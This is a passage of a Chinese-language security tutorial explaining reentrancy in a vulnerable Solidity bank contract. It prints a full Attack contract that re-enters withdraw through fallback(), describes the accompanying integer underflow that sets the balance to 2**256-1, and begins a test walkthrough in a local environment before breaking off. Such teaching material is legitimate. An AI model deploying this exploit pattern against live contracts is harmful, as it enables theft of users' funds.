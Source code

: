 漏洞点就在上述代码中的withdraw方法中, 是先进行转账, 然后才扣除相应的余额这会造成什么问题呢?很显然开发者没有考虑到存款取款的账户也可以是智能合约在学习过Solidity后, 我们知道, 智能合约中存在fallback方法, 用来处理当合约收到转账的情况先来看我们的攻击代码随后对原理进行详细讲解  
```
contract Attack {
    Blan blan;
    bool flag;
    constructor(address blan_address) {
        blan = Blan(blan_address);
    }

    function attack() public payable {
        require(msg.value == 1 ether);
        blan.deposit{value:1 ether}(); // 存入 1eth
        blan.withdraw(10 ** 18); // 取出1 eth, 这里以wei为单位, 10**18 wei = 1 eth
    }
    fallback() external payable {
        if (!flag) {
            blan.withdraw(10 ** 18);
            flag = true;
        }
     }
}
```  
  
我们可以看到, 有一个 flag 值当触发攻击函数后, 会像目标合约存入 1eth再提取1eth我们来看一下执行的流程图  
  
图中箭头标注1, 2的部分是第一次访问到这块, 会跟着1走, 第二次再访问到这块, 会走2.  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/BwqHlJ29vcoe5zfJkZjNpJia6kXdr9GvjkIiaSSraXCddIibqYfNLchwTtBUeDKPhLxDhB5Z4IlV6HyvogZsvtdbg/640?wx_fmt=png&from=appmsg "")  
  
流程图中很明显的告诉我们漏洞触发的原因是, 当转账给一个智能合约时会等待该合约的 fallback() 函数执行完成后才算这行代码执行完毕, 才会接着继续下一行代码其中利用的像是一种递归的思想  
  
另外此处还存在整型下溢漏洞会将我的余额变为2 ** 256 - 1第一次存入后, 我的余额为1两次取出后, 我的余额就变成了 1 - 1 - 1, 由于余额是 uint类型表示的我的余额就会变成 2**256 -1 wei  
#### 测试:  
  
编译时选择Solidity7版本, Solidity8中添加了当发生溢出时自动回退的功能.  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/BwqHlJ29vcoe5zfJkZjNpJia6kXdr9GvjuL4JqVL6dHtgRYW2418pdR1WwZpVwib2VzO8YwUrQYJqzWw51wCoy2w/640?wx_fmt=png&from=appmsg "")  
  
部署后, 我们首先用默认用户存进去10eth  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/BwqHlJ29vcoe5zfJkZjNpJia6kXdr9GvjUakmSDL8ygbKA9gIR3oTCe8ExL8omGKYWR5vA5wF7p2BTq8otzh0Rw/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/BwqHlJ29vcoe5zfJkZjNpJia6kXdr9GvjCRUwnNPDJWM7SlkdEhwqp3XFruXy2HYMFZvIygwdAmTd6XE5ckOe3g/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/BwqHlJ29vcoe5zfJkZjNpJia6kXdr9GvjicOMCcSXjoSzm3ML3HYFHxAKgdI4iaqLvjYwgXhibkq5AZF7Hhsaw7ojQ/640?wx_fmt=png&from=appmsg "")  
  
然后部署攻击合约  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/BwqHlJ29vcoe5zfJkZjNpJia6kXdr9GvjaWHFOcp8dQKmtdy9s73HJ5cIItMLH3ZjzeMPElKMalMib2k2mfMDrDQ/640?wx_fmt=png&from=appmsg "")  
  
设置发送1eth  
  